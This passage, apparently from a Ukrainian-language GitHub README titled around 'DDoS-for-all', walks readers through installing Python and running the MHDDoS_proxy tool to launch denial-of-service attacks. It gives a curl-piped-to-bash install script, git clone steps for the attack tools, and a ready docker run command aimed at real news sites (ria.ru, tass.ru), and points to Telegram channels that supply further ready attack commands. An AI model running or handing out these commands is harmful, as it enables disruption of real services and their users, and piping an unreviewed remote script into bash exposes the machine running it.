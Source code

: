 4. **Python.** Нижче наведено команду для скачування Python через Термінал для Ubuntu (якщо виникають якісь проблеми, перейдіть за посиланням і попробуйте встановити Python згідно гайду), гайд по встановленню Python на Mac та посилання для скачування Python та Git на Windows.
   * UNIX-подібні ([Python](https://www.digitalocean.com/community/tutorials/how-to-install-python-3-and-set-up-a-programming-environment-on-an-ubuntu-20-04-server-ru))
   ```sh
   sudo apt-get update
   sudo apt install python3 python3-pip
   ```
   Також можна встановити Python (і також необхідний код для MHDDoS_proxy) за дпомогою готового скрипта: 
   ```sh
   curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash
   ```
   * Mac ([Python](https://docs.python-guide.org/starting/install3/osx/))
   * Windows ([Python](https://www.python.org/ftp/python/3.10.2/python-3.10.2-amd64.exe) [Git](https://github.com/git-for-windows/git/releases/download/v2.35.1.windows.2/Git-2.35.1.2-64-bit.exe))

<br/>

## Запуск атаки

Нижче наведені приклади атаки на Docker та Python. Загалом конкретні атаки (уже готові команди) дають багато Телеграм-каналів, які використовують даний скрипт для атак. Посилання на ці Телеграм-канали можете знайти [тут](https://github.com/SlavaUkraineSince1991/DDoS-for-all/blob/main/MHDDoS_proxy.md#%D0%BA%D0%BE%D1%80%D0%B8%D1%81%D0%BD%D1%96-%D0%BF%D0%BE%D1%81%D0%B8%D0%BB%D0%B0%D0%BD%D0%BD%D1%8F). Вам потрібно лише скопіювати готовий код і вставити його в Термінал Вашого локального комп'ютера, віртуального середовища, чи віртуальної машини на онлайн-сервісі.

### Docker

Приклад коду для запуску скрипта через Docker. Детальніше про параметри скрипта [дивись тут](https://github.com/SlavaUkraineSince1991/DDoS-for-all/blob/main/MHDDoS_proxy.md#%D1%80%D0%BE%D0%B7%D0%B1%D1%96%D1%80-%D0%BF%D0%B0%D1%80%D0%B0%D0%BC%D0%B5%D1%82%D1%80%D1%96%D0%B2).

**ВАЖЛИВО!** Якщо Docker викидує якусь помилку, спробуйте запустити його кілька разів (може бути таке, що не вдається зразу встановити зв'язок із проксі-серверами через велику їх нагрузку на даний момент). Якщо ж проблема залишається, то спробуйте варіант із Python нижче (бувало таке, що не вдавалося зпулити Docker імедж через його недавнє видалення, або проблеми із серверами GitHub, де цей Docker імедж зараз зберігається).

```sh
sudo docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru https://tass.ru
```

### Python

Перед запуском скрипта на Python потрібно підтягнути увесь необхідний код із GitHub.

```sh
git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
cd mhddos_proxy
git clone https://github.com/MHProDev/MHDDoS.git
python3 -m pip install -r MHDDoS/requirements.txt
```
